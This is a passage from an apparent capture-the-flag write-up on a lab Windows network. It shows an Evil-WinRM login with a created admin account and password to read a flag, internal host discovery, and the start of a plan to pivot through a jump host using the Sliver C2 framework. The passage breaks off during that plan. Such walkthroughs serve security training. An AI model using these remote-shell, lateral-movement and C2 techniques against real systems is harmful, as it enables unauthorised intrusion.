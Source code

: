 We can now access the machine using the newly created Administrator account and retrieve the second flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'gatari' -p 'P@ssw0rd'           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\gatari\Documents> cat C:\Users\Administrator\desktop\FLAG2.txt
93e8cb96c86dc1d017e6cc07a0ba26af

```

## Flag 3

From this machine, you’ll find that you now have access to additional machines, including `Western-Outpost`.

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping Western-Outpost.async.empire -n 1

Pinging Western-Outpost.async.empire [10.2.20.21] with 32 bytes of data:
Reply from 10.2.20.21: bytes=32 time<1ms TTL=127

Ping statistics for 10.2.20.21:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

### Command & Control (C2)

By this point, you'll notice the network is heavily segmented with several subnets, which requires extensive pivoting. To simplify this, I'll be using a C2 framework for pivoting, as I prefer not to rely on tools like Chisel.

In my opinion, the most stable and reliable open-source C2 frameworks are [meterpreter](https://github.com/rapid7/metasploit-framework) and [sliver](https://github.com/BishopFox/sliver). For this writeup, I'll be using `Sliver`, as there is already plenty of documentation for `Meterpreter`, and `Sliver` is generally less commonly used.

The internal machines are airgapped and do not have direct internet access, meaning they cannot connect directly to your machine. However, they can connect to the jump host. You may remember the following network interface on the jump host that is exposed to the internal subnet:

```
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:e4:b6:a5 brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.2.10.9/24 brd 10.2.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::be24:11ff:fee4:b6a5/64 scope link 
```
